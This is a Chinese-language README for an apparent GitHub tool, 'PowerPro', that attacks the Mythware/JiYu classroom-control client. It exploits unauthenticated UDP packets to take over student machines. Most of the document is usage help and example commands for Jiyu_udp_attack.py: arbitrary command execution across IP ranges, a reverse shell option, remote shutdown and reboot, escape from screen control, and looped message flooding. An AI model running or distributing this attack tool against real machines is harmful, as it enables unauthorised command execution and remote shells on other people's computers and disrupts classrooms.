 # PowerPro
工具。更为强大。

[下载](download.html)


# 前言
由于太**了，最近又重拾了Mythware的Hack，自学了一点Python，Fork了一份别人的Starter Kit，开始开发。

-------------------------
# 正文

![GitHub stars](https://img.shields.io/github/stars/LightDesignStudio/PowerPro?color=9cf&style=flat-square)[![Github Release](https://img.shields.io/github/v/release/LightDesignStudio/PowerPro?color=091384&label=%E7%89%88%E6%9C%AC&style=flat-square)](https://github.com/LightDesignStudio/PowerPro/releases)![Github DownLoads](https://img.shields.io/github/downloads/LightDesignStudio/PowerPro/total?color=brightgreen&style=flat-square)![Github Activity](https://img.shields.io/github/commit-activity/y/LightDesignStudio/PowerPro?style=flat-square)

+ 因为极域的学生端没有对接收到的udp包做(=・ω・=)身份验证，导致了我们可以构造特定的数据包让学生端来执行，从而实现命令执行攻击机房内上线的任意学生端机器。
## 运行环境
+ Python3





## 使用方法：
```
usage:

    ------------------- Github Repositories -------------------
            https://github.com/LightDesignStudio/PowerPro

       [-h] -ip IP [-p P] [-msg MSG] [-c C] [-l L] [-t T]
       [-e {r,s,g,nc,break,continue}]
       {r,s,g,nc,break,continue} ...

positional arguments:
  {r,s,g,nc,break,continue}
                        -e 参数的详细说明
    r                   reboot 重启
    s                   shutdown 关机
    g                   独立选项，获取当前的ip地址以及学生端监听的端口
    nc                  独立选项，反弹shell的机器需出网，退出可使用命令exit
    break               独立选项，脱离屏幕控制，需要管理员权限
    continue            独立选项，恢复屏幕控制

optional arguments:
  -h, --help            show this help message and exit
  -ip IP                ip 指定目标IP地址
  -p P                  port 指定监听端口，默认端口为4705
  -msg MSG              send_message发送消息 eg: -msg "HelloWord!"
  -c C                  command命令 eg: -c "cmd.exe /c ipconfig"
  -l L                  循环次数，默认为1
  -t T                  循环时间间隔，默认是22秒
  -e {r,s,g,nc,break,continue}
                        Extra Options加载额外的选项 eg：-e r
          
```

## 使用例子

### Tips:
使用 **-ip** 参数指定目标IP时，可以有以下几种指定方式：
- 指定单个IP，如  192.168.80.12
- 指定IP范围，如 192.168.80.10-56
- 指定IP所在C段，如 192.168.80.1/24



### 1.获取内网ip地址及监听的端口
若学生端监听端口不是默认的**4705**，则在后续操作过程中需使用 **-p** 参数指定端口
```
python Jiyu_udp_attack.py -e g
```

### 2.脱离屏幕控制
当前运行权限需为管理员权限，主要用于开启MpsSvc服务
```
python Jiyu_udp_attack.py -e break
```

### 3.恢复屏幕控制
```
python Jiyu_udp_attack.py -e continue
```

### 4.发送消息
若学生端监听端口为**4705**，向IP地址为192.168.80.12的机器发送一条内容为"hello,baby!"的消息
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -msg "hello,baby!"

```

若学生端监听端口为**4605**，需使用 **-p** 参数指定端口，向IP地址为192.168.80.12的机器发送一条内容为"hello,baby!"的消息
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -p 4605 -msg "hello,baby!"

```

### 5.执行命令
给192.168.80.12到192.168.80.137弹一个计算器
```
python Jiyu_udp_attack.py -ip 192.168.80.12-137 -c calc.exe
```

### 6.反弹shell
反弹shell时，IP只能为某个机器IP，不能批量反弹，而且机器需要出网<br>
因为已经实现批量的任意命令执行，考虑到批量反弹也没啥意义，遂不添加
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -e nc
```

### 7.关机重启
关机
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -e s
```
重启
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -e r
```

### 8.循环
利用循环持续发送消息<br>
1-254的机器会收到一条"hello,baby!"的消息，50s后会继续执行，共执行3次
```
    python Jiyu_udp_attack.py -ip 192.168.80.23/24 -msg "hello,baby!" -l 3 -t 50
```






